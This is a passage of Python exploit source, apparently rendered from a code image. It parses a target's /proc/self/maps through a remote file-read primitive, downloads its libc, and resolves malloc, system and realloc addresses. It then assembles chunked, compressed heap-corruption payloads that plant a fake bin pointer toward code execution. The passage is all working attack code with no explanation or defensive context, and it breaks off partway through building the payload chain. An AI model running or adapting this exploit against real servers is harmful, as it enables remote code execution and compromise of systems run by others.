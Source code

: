 ```python
    maps = get_file("/proc/self/maps").decode()
    PATTERN = re.compile(
        r"^([a-f0-9]+)-([a-f0-9]+)\b.*\s([-rwx]{3}[ps])\s(.*)"
    )
    regions = []
    for line in table.split(maps, strip=True):
        if match := PATTERN.match(line):
            start = int(match.group(1), 16)
            stop = int(match.group(2), 16)
            permissions = match.group(3)
            path = match.group(4).rsplit(" ", 1)[-1] if "/" in match.group(4) or "[" in match.group(4) else ""
            regions.append({
                "start": start,
                "stop": stop,
                "permissions": permissions,
                "path": path
            })
    return regions

def get_symbols_and_addresses():
    regions = get_regions()
    LIBC_FILE = "/dev/shm/cnext-libc"
    info["heap"] = heap or find_main_heap(regions)
    libc = _get_region(regions, "libc-", "libc.so")
    download_file(libc["path"], LIBC_FILE)
    info["libc"] = ELF(LIBC_FILE, checksec=False)
    info["libc"].address = libc["start"]

def build_exploit_path():
    LIBC = info["libc"]
    ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
    ADDR_EFREE = LIBC.symbols["__libc_system"]
    ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]

    ADDR_HEAP = info["heap"]
    ADDR_FREE_SLOT = ADDR_HEAP + 0x20
    ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x168
    ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10
    CS = 0x100

    pad = b"\x00" * (CS - 0x18)
    pad = chunked_chunk(pad, len(pad) + 6)
    pad = chunked_chunk(pad, len(pad) + 6)
    pad = chunked_chunk(pad, len(pad) + 6)
    pad = compressed_bucket(pad)

    step1 = b"\x00" * 1
    step1 = chunked_chunk(step1)
    step1 = chunked_chunk(step1)
    step1 = chunked_chunk(step1, CS)
    step1 = compressed_bucket(step1)

    step2 = b"\x00" * (0x48 + 8)
    step2 = chunked_chunk(step2, CS)
    step2 = chunked_chunk(step2)
    step2 = compressed_bucket(step2)

    step2_write_ptr = b"0\n".ljust(0x48, b"\x00") + p64(ADDR_FAKE_BIN)
    step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
    step2_write_ptr = chunked_chunk(step2_write_ptr)
    step2_write_ptr = compressed_bucket(step2_write_ptr)

```